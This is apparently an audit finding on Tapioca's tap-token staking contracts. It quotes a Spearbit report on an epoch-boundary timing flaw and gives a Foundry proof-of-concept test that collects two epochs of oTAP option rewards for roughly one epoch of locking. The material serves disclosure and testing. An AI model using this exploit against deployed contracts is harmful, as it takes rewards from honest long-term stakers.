 Quoting the impact from the Spearbit report:

> Attacker has removed one epoch of rewards from the long term stakers, receiving 2 tapOFT payoffs for 1 epoch long staking. More generally, an attacker can add 1 epoch of option rewards in excess to their actual locking time (as epsilon can be made minutes long and not significant position locking wise).
> This is a violation of base protocol [token economy](https://docs.tapioca.xyz/tapioca/token-economy/token-economy#call-option-incentive-tap-otap:\~:text=Lenders%20with%20active%20oTAP%20positions%20will%20receive%20oTAP%20shares%20from%20the%20DSO%20program%20every%20week%20that%20their%20position%20remains%20locked%2C%20proportional%20to%20their%20positions%20share%20of%20the%20total%20supplied%20locked%20liquidity%20in%20the%20respective%20market%2C):
>
> > Lenders with active oTAP positions will receive oTAP shares from the DSO program every week that their position remains locked, proportional to their positions share of the total supplied locked liquidity in the respective market

### Proof of Concept

Test showing the issue is still there in `tap-token/test/OptionTest.t.sol`:

```solidity
    function testExerciseOptionTwice() public {
        pearlmit.approve(address(yieldbox), 1, address(tOLP), type(uint200).max, type(uint48).max);
        paymentToken.mint(address(this),1000e18);
        paymentToken.approve(address(pearlmit),type(uint256).max);
        pearlmit.approve(address(paymentToken), 0, address(tOB), type(uint200).max, type(uint48).max);

        // epoch timestamps
        uint256 epoch2 = block.timestamp + 7 days;
        uint256 epoch3 = epoch2 + 7 days;

        // step 1 participate right before end of epoch
        vm.warp(epoch2 - 5 minutes);

        uint256 tOLPId = tOLP.lock({
            _to: address(this),
            _singularity: IERC20(singularity), 
            _lockDuration: 7 days + 10 minutes,
            _ybShares: 1e18
        });

        tOLP.approve(address(pearlmit), tOLPId);
        pearlmit.approve(address(tOLP), tOLPId, address(tOB), 1, type(uint48).max);
        tOB.participate(tOLPId);

        // epoch changes
        vm.warp(epoch2);
        tOB.newEpoch();

        // step 2 right as you can, exercise first option
        vm.warp(epoch3 - 5 minutes);     
        tOB.exerciseOption(tOLPId, paymentToken, 0);

        vm.warp(epoch3);
        tOB.newEpoch();

        // step 3 just after epoch 3 trigger, collect 2nd option
        vm.warp(epoch3 + 10 minutes);
        tOB.exerciseOption(tOLPId, paymentToken, 0);

        oTAP.approve(address(tOB), tOLPId);
        tOB.exitPosition(tOLPId);
        tOLP.unlock(tOLPId,IERC20(singularity),address(this));
    }
```